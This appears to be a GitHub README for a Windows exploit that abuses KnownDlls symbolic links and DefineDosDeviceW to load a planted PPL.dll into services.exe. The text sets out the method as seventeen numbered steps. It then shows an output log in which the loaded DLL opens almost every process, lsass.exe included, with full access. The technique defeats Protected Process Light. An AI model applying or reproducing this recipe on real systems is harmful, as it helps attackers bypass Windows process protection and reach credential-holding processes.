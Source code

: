 # KnownDlls

after reading https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html
(we really not need step 1 - Use the vulnerability to create the directory “\GLOBAL??\KnownDlls” )
and https://itm4n.github.io/the-end-of-ppldump/

-------------------------------------------------------------------------------------------------------------------

01. we try got tokens (primary and impersonation) with write access for \GLOBAL?? and with required privileges
02. impersonate
03. create symbolic link "\GLOBAL??\EventAggregation.dll" => "\BaseNamedObjects\MySection"
![Screenshot](0.png)
04. revert to self
05. create 2 links: "\??\KnownDlls" => "\GLOBAL??" and "\??\GLOBALROOT" => "\??"
![Screenshot](1.png)
06. DefineDosDeviceW ("GLOBALROOT\KnownDlls\EventAggregation.dll", "\BaseNamedObjects\MySection");
![Screenshot](Untitled.png)
![Screenshot](3.png)
07. create file "\systemroot\temp\PPL.dll"
08. create image section "\BaseNamedObjects\MySection" from "\systemroot\temp\PPL.dll"
![Screenshot](2.png)
09. start "services.exe" with current thread id in command line
10. alertable wait for services.exe exit
11. if PPL.dll loaded to services.exe (as EventAggregation.dll ) it send alert to our thread
12. if and only if wait finished with STATUS_ALERTED this mean all is ok and PPL.dll take control
13. delete "\KnownDlls\EventAggregation.dll" link
14. show info and exit
15. PPL.dll redirect exe entry point to self
16. PPL.dll enumerate all processes in system and try open each with PROCESS_ALL_ACCESS
17. only processes with higher level than 1.6 ( Light.WinTcb ) is fail to open - System, Registry and Memory Compression (all 3 is 2.7 - Protected.WinSystem )

c0000022 00000004 System [2.7]
c0000022 0000007c Registry [2.7]
00000000 000001a0 smss.exe [1.6]  >>  \SystemRoot\System32\smss.exe
00000000 00000228 csrss.exe [1.6]  >>  %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll
00000000 0000027c wininit.exe [1.6]  >>  wininit.exe
00000000 00000284 csrss.exe [1.6]  >>  %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll
00000000 000002c8 services.exe [1.6]  >>  C:\WINDOWS\system32\services.exe
00000000 000002e4 winlogon.exe  >>  winlogon.exe
00000000 0000031c lsass.exe  >>  C:\WINDOWS\system32\lsass.exe
00000000 00000398 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k DcomLaunch -p
00000000 000003b4 fontdrvhost.exe  >>  "fontdrvhost.exe"
00000000 000003b8 fontdrvhost.exe  >>  "fontdrvhost.exe"
00000000 000001e0 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k RPCSS -p
00000000 000001fc svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k DcomLaunch -p -s LSM
00000000 000001bc dwm.exe  >>  "dwm.exe"
00000000 00000450 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s DsmSvc
00000000 0000045c svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k NetworkService -s TermService
00000000 000004f8 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -p -s EventLog
00000000 00000504 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s ProfSvc
00000000 00000510 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s NcbService
00000000 0000050c svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s Schedule
00000000 00000524 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s TimeBrokerSvc
00000000 000005b4 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNoNetwork -p
00000000 000005d0 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -s CertPropSvc
00000000 000005fc svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s UserManager
00000000 00000614 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s hidserv
00000000 00000638 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalService -p -s nsi
00000000 00000668 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceAndNoImpersonation -s SCardSvr
00000000 00000678 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -s SCPolicySvc
00000000 000006e4 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s Dhcp
00000000 00000768 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s UmRdpService
00000000 000007c4 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k NetworkService -p -s NlaSvc
00000000 00000590 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s NgcCtnrSvc
00000000 00000898 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalService -p -s netprofm
00000000 00000948 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k NetworkService -p -s Dnscache
00000000 00000968 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s Winmgmt
00000000 000009d8 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalService -p -s EventSystem
00000000 00000aa0 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k netsvcs -p -s BITS
00000000 00000ae8 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s SysMain
00000000 00000af0 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k netsvcs -p -s Themes
00000000 00000af8 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s SENS
00000000 00000b34 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s AudioEndpointBuilder
00000000 00000b3c svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalService -p -s FontCache
c0000022 00000b60 Memory Compression [2.7]
00000000 00000bdc svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -p
....
00000000 00000e48 services.exe [1.6]  >>  2340


 
